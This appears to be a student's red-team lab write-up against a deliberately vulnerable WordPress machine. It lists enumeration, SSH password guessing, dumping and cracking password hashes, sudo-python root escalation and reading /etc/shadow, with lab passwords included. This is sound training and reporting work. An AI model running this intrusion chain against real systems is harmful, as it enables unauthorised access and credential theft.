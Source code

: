 # Reven_Security


## Red Team: Summary of Operations
Table of Contents:

* Reconnaissance Phase
* Service Abuse 
* Lateral Movement 
* Privilege Escalation
* Critical Vulnerabilities 

# Reconnaissance Phase: it is all about Enumeration!

During the reconnaissance phase on the Target, we used different tools to collect and gather important information about the target.

Tools used during the reconnaissance phase: Nmap, dirb, and wpscan 


We used Nmap to scan the target and enumerate the open ports 

Command used to scan Target 1 Machine: ` nmap -sV -sC 192.168.1.110 `

<img src="/Red Team Summary of Operations/Images/nmap.png" >

This scan identifies the services below as potential points of entry:

|  Port | Service  | 
|---|------|
| 22 |  SSH | 
| 80  | HTTP  |  
| 111  |  rcpbind | 
| 139  | NetBIOS |
| 445 | NetBIOS |

After discovering that the target is a web application running on port 80 we used dirb to enumerate the web application hidden directory.

<img src="/Red Team Summary of Operations/Images/website.png">

Command used: `dirb http://192.168.1.110 /usr/share/dirb/wordlist/small.txt`

<img src="/Red Team Summary of Operations/Images/dirb.png">
     
Using dirb give us new information that website running on WordPress, so we used wpscan to enumerate the users. 


Command used: `wpscan -url 192.168.1.110/wordpress -enumerate u `

<img src="/Red Team Summary of Operations/Images/users_enum2.png">


## Service Abuse: 
During our reconnaissance phase we found out that SSH service is open on port 22 and we discover two users michael and steven, so we abuse this two information we have and try to guess the password of one of the users.

Command used: `ssh michael@192.168.1.110`
password: `michael `

Since we were inside the target machine we were able to collect the first two flags: 
Command used for flag1: 

* `grep -lr flag1 /var/www `
* `cat /var/www/html/service.html | grep flag1 `

<img src="/Red Team Summary of Operations/Images/flag1.png">

Command used for flag2: 

* `locate flag2.txt`
 
* `cat /var/www/flag2.txt`

![flag2](https://user-images.githubusercontent.com/69011745/153727072-1bceb9f7-c7b0-4404-bfe3-df89c5c33950.png)

## Lateral Movement: 
With Michael's credentials we were able to navigate through the file system of the target machine and revealed the root username and password for MySQL database.
File Path: /var/www/html/wordpress/wp-config.php
Next, we logged into MySQL and dumped the WordPress user password hashes using the password R@v3nSecurity :
Command used:
mysql -u root -p 
show DATABASES;
use wordpress;
show tables;
select user_login,user_pass from wp_users;  


we got flag3.txt also by
mysql -u root -p 
show DATABASES;
use wordpress;
show tables;
Select * from wp_posts;


Now we have the password hash for steven, we used john to crack the password hash
Command used: john hash1.txt -w=rockyou.txt  
Privilege Escalation
With steven password:pink84, we logged into the target machine again and checked his sudo privileges and discovered he had sudo right for python. We escalated our privileges from steven to root using python script. 
Command used: 
ssh steven@192.168.1.110 
sudo -l 
python -c 'import pty;pty.spawn("/bin/bash");'
locate flag4.txt 
cat /root/flag4.txt

flag4.txt

As root user, we dumped all user hashes including the root user hash:
Command used: cat /etc/shadow
Critical Vulnerabilities Discover During Our Engagement: 
No firewall rule to block Nmap port scanning 
Web application Directory enumeration 
WordPress enumeration
Poor SSH configuration 
Weak Password policies 
No file security permission implementation for critical files system  
Sudo rights for python used to escalate privilege to root 
